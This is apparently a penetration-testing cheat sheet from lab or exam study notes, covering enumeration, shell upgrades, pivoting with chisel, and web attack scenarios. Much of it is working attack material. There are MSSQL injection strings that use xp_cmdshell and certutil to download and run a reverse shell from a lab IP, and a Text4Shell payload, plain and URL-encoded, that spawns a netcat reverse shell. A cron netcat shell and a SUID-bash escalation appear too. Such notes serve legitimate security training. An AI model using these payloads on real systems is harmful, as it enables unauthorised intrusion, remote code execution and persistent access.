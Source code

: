 ## Escalating to ["interactive" shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
### Linux
1. With root, can set SUID bit to /bin/bash
2. python -c 'import pty; pty.spawn("/bin/bash")' (if python exists)
## Initial Enumeration

```
autorecon -v -t targets.txt
sudo env "PATH=$PATH" autorecon -v -t targets.txt (For UDP scan)
nmap -v -p 80 --script=http-title <IP>
nmap -sV -Sc <IP>
sudo nmap <IP> -p- -sV -vv --open --reason 
```
Check for suspicious ports like 1978 mouse exploit or 9099 mobile mouse. Sometimes vm need about 5min before exploit can run
## Set up
```
python -m http.server 80
```
### Chisel (if needed)
```
cd /opt/chisel
./chisel server -p 1050 --reverse
. C:\Windows\temp\chisel-x64.exe client 192.168.45.213:1050 R:socks
```

## Web application
### SQL injection
```
', =, ", -- (Test for error)
'waitfor delay '0:0:10'-- (mssql test)
';exec xp_cmdshell 'certutil -urlcache -f http://192.168.45.213:444/reverse.exe C:\Windows\temp\reverse.exe';-- (mssql)
';exec master.dbo.xp_cmdshell 'cmd /c C:\Windows\temp\reverse.exe';-- (mssql to run command)
```
### Scenarios
1. Login page with SQL injection
2. Apache version (Use searchsploit)
3. Vulnerable host/web version
4. CMS version with default password
5. Vulnerable API (with searchsploitable stuff)
6. Some sus ports with http can have an admin page or login page
```
For example:
Apache Commons Text 1.8 Dependency indicates vulnerable to text4shell [here](https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7)
${script:javascript:java.lang.Runtime.getRuntime().exec('busybox nc IP 443 -e /bin/bash')}
%24%7Bscript%3Ajavascript%3Ajava%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%27busybox%20nc%20192%2E168%2E45%2E206%20443%20%2De%20%2Fbin%2Fbash%27%29%7D
```
7. Login panel with 0 day rce
```
For example,
[vesta login panel](https://pentest.blog/vesta-control-panel-second-order-remote-code-execution-0day-step-by-step-analysis/)
busybox nc 192.168.45.199 443 -e /bin/sh in the cron
then use [this](https://ssd-disclosure.com/ssd-advisory-vestacp-multiple-vulnerabilities/)
```